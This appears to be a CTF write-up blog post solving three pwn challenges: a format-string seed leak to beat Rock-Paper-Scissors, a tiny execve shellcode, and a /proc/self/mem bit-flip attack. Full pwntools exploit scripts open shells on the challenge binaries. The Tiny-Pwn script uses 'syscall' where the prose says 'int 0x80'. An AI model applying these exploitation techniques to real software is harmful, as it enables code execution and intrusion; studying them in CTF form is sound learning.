




Solutions to some of the pwn challenges in the event.
<!--more-->

## Overview

Last weekend, I had the opportunity to play in the event with my team, `thehackerscrew`, where I did most of the pwn challenges!

We finished 4'th in this event, and I enjoyed the challegnes a lot.
## RPS


We are given a binary file named `rps`. It was a simple 64-bit binary, which printed the flag to us if we won Rock-Paper-Scissors 50 times in a row. The odds of us actually winning this many times are incredibly slim, so we needed to find a vulnerability.
Let's put the binary in IDA and take a closer look at what the code does.

```C
__int64 rps()
{
  char player_choice; // [rsp+Eh] [rbp-12h] BYREF
  char computer_choice; // [rsp+Fh] [rbp-11h]
  int flush_char; // [rsp+10h] [rbp-10h]
  _BYTE possiblities[3]; // [rsp+15h] [rbp-Bh] BYREF
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  player_choice = 0;
  qmemcpy(possiblities, "rps", sizeof(possiblities));
  computer_choice = possiblities[rand() % 3];
  puts("Let's play!");
  while ( player_choice != 'r' && player_choice != 'p' && player_choice != 's' )
  {
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf("%c", &player_choice);
    do
      flush_char = getchar();
    while ( flush_char != '\n' && flush_char != -1 );
  }
  if ( player_choice == 'r' && computer_choice == 's'
    || player_choice == 'p' && computer_choice == 'r'
    || player_choice == 's' && computer_choice == 'p' )
  {
    puts("You win!");
    return 1LL;
  }
  else
  {
    puts("You lost.");
    return 0LL;
  }
}

int main(){
  fd = open("/dev/urandom", 0);
    if ( fd < 0 )
    {
      printf("Opening /dev/urandom failed");
      exit(1);
    }
    read(fd, &buf, 4uLL);
    close(fd);
    srand(buf);
    printf("Enter your name: ");
    fgets(s, 20, stdin);
    printf("Hi ");
    printf(s);
    puts("Let's play some Rock Paper Scissors!");
    puts("If you beat me 50 times in a row I'll give you a special prize.");
    for ( i = 0; i <= 49; ++i )
    {
      if ( (unsigned __int8)rps() != 1 )
      {
        puts("You didn't beat me enough times. Too bad!");
        exit(1);
      }
    }
    win();
}
```

The program will prompt us for a name and print it using printf. There is a clear FSB vulnerability here. FSBs are a powerful primitive and can be used to perform arbitrary writes and reads, as well as easily leak stack data from the stack. Our goal is to win 50 times. The computer will read its seed from /dev/urandom and store it in the stack. With FSB, we can leak the value and predict the random numbers! After some trial and error, I noticed that the seed was stored at %9$p. I then used the ctypes library to use the srand and rand functions. Here is my final script:

```PY
from pwn import *
from ctypes import CDLL, c_char_p

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

p = remote("vsc.tf" , 3094)
p.recvuntil("name: ")

p.sendline("%9$p")


p.recvuntil("Hi ")

seed = int(p.recvn(10), 16)

libc.srand(seed)

print(hex(seed))

win = {
	"s": "r",
	"r": "p",
	"p": "s"
}
p.recvuntil("prize.")
p.recvuntil("play!")

for i in range(50):
	pc = "rps"[libc.rand() % 3]
	p.recvuntil("Enter your choice (r/p/s): ")
	p.sendline(win[pc])

p.interactive()
```

## Tiny-Pwn

Tinypwn was the first pwn challenge I encountered in the CTF. It was pretty easy and I managed to solve it very quick, and even first blooded it:


It was a small 32-bit binary, just 69 bytes, and did the following:


Writing 0xd bytes into the stack and jumping to it lets us execute a shellcode of size 0xd.To set up `exceve(/bin/sh)` shellcode, I ran `strings --radix=x tinypwn`. This showed that the string `/bin/sh` is located at offset 0x20, and the binary base is 0x10000, meaning `/bin/sh` is at 0x10020.
To execute `/bin/sh` via the `exceve` syscall, we need `eax=0xb` (the syscall number), `ebx=/bin/sh`, `edx=0`, and `ecx=0` as parameters. However, we can only write 0xd bytes, so we need to be creative. The instruction `mov eax, 0xb` is 5 bytes, which is too long.
We can leverage the fact that syscalls put their return value in `eax`. For example, the read syscall will return the number of bytes read. This lets us write exactly 0xb bytes, saving us the instruction `mov eax, 0xb`. We can then write `xor edx, edx` and `xor ecx, ecx` (2 bytes each), `mov ebx, 0x10020` (5 bytes), and `int 0x80` (2 bytes).
This adds up to 0xb bytes exactly what we needed and we successfully exploited this challenge.
Final code:

```PY
from pwn import *
p = remote("vsc.tf" , 3026)

shellcode = """
xor edx, edx\n
xor ecx, ecx\n
mov ebx, 0x10020\n
syscall\n
"""

p.send(asm(shellcode))
p.interactive()
```


## Cosmic Ray v2

`Cosmic Ray v2` was the third pwn challenge I encountered in the CTF. I enjoyed it a lot and I first blooded it aswell:



The challenge author is `Rench` the goat, it was the second version of a challenge named `Cosmic Ray` which I solved in `SekaiCTF`

Here is the main functioallity of the binary:
```C
unsigned __int64 cosmic_ray()
{
  int v1; // [rsp+Ch] [rbp-34h] BYREF
  int i; // [rsp+10h] [rbp-30h]
  int fd; // [rsp+14h] [rbp-2Ch]
  __off_t offset; // [rsp+18h] [rbp-28h] BYREF
  __int64 v5; // [rsp+20h] [rbp-20h]
  __int64 v6; // [rsp+28h] [rbp-18h]
  char buf; // [rsp+36h] [rbp-Ah] BYREF
  char v8; // [rsp+37h] [rbp-9h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  puts("Enter an address to send a cosmic ray through:");
  __isoc99_scanf("0x%lx", &offset);
  getchar();
  putchar(10);
  fd = open("/proc/self/mem", 2);
  lseek(fd, offset, 0);
  read(fd, &buf, 1uLL);
  v5 = byte_to_binary((unsigned int)buf);
  puts("|0|1|2|3|4|5|6|7|");
  puts("-----------------");
  putchar(124);
  for ( i = 0; i <= 7; ++i )
    printf("%d|", (unsigned int)*(char *)(i + v5));
  putchar(10);
  putchar(10);
  puts("Enter the bit position to flip:");
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( v1 < 0 || v1 > 7 )
    exit(1);
  v6 = flip_bit(v5, (unsigned int)v1);
  v8 = binary_to_byte(v6);
  putchar(10);
  printf("Bit succesfully flipped! New value is %d\n\n", (unsigned int)v8);
  lseek(fd, offset, 0);
  write(fd, &v8, 1uLL);
  return v9 - __readfsqword(0x28u);
}
```

Firstly, it will ask the user for an address, and will store it in a variable called `offset`.
Then, the program will open `/proc/self/mem`, which contains all the virtual memory of the binary.
It will use the `lseek` function to seek to the specific address we gave it, and it will let us the option to flip any bit we want of that specific byte.
Now, how from 1 bit flip we can get an RCE?

Actually, because the we directly write to `/proc/self/mem`, we can pretty much write to any location in the virtual space. it doens't matter if its writable or not by the program.
This means, we can corrupt the binary code segment, and make it to unwanted things.

Since we have just one bit flip, we can't use that alone to get an RCE. lets make this 1 bit flip into infinite bit flips!
Looking at the `cosmic_ray` function disassembly, there is a canary check. when the canary is correct, it will go to `0x4015e1`, which jumps to `rip + 7`, which is the function's ret.

I noticed that if we change the byte at `0x4015e2` we can corrupt where the function will jump to. I tried to flip each one of the 8 bits, and noticed that if we flip the 4 bit, the assembly instruction gets change to:


Which basiclly gets back to main! now we priviliged our 1 bit flip to infinite bit flips.
Now, thats a really string primitive, because we can basiclly execute any shellcode we want.
When `exit` is called, the program will jump to its `plt` to use the `got` to jump to the libc function. with our bit flips, we can corrupt this call.



Now what I did was to just take all of the bytes from that address, so we know what bits to flip to get our `execve(/bin/sh)` shellcode there. I used GDB for that:



Here is my final script:

```py

#!/usr/bin/env python3

from pwn import *

exe = ELF("./cosmicrayv2_patched")
libc = ELF("./libc-2.35.so")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.arch = 'amd64'
p = None

exit_bytes = [ 0xf3   , 0x0f ,   0x1e,    0xfa  ,  0xf2 ,   0xff,    0x25  ,  0x3d ,0x2e ,   0x00 ,   0x00   , 0x0f   , 0x1f  ,  0x44 ,   0x00 ,   0x00 ,0xf3  ,  0x0f ,   0x1e ,   0xfa  ,  0x31  ,  0xed   , 0x49    ,0x89   , 0xd1   , 0x5e  ,  0x48,    0x89  ,  0xe2    ,0x48  ,  0x83  ,  0xe4, 0xf0   , 0x50  ,  0x54   , 0x45   , 0x31   , 0xc0  ,  0x31  ,  0xc9  ,0x48    ,0xc7   , 0xc7  ,  0xea   , 0x15 ,   0x40  ,  0x00    ,0xff , 0x15,    0x1b ,   0x2e    ,0x00,    0x00 ,   0xf4    ,0x66    ,0x2e,0x0f  ,  0x1f ,   0x84 ,   0x00 ,   0x00,    0x00 ,   0x00 ,   0x00 ,0xf3 ,   0x0f  ,  0x1e  ,  0xfa  ,  0xc3  ,  0x66,0x2e,0x0f]
exit_address = 0x4011a0
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    p.recvuntil("through:\n")

    p.sendline(hex(address))
    p.recvuntil("flip:")
    p.sendline(str(bit))


def main():
    global p
    p = process()
    flip(0x4015e2, 4) #flip the canary jump to go back to main

    curr_address = exit_address
    for i in range(len(desired_bytes)):
        shellcode_bits = bin(desired_bytes[i])[2:]
        exit_bits = bin(exit_bytes[i])[2:]

        #fill 0's at the start

        shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
        exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

        for i in range(len(exit_bits)):
            if exit_bits[i] != shellcode_bits[i]:
                flip(curr_address, i)
        curr_address += 1

    flip(0, 69) #trigger exit

    p.interactive()


if __name__ == "__main__":
    main()

```

## Appendix

I really enjoyed the challenges as they were quite fun to solve.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
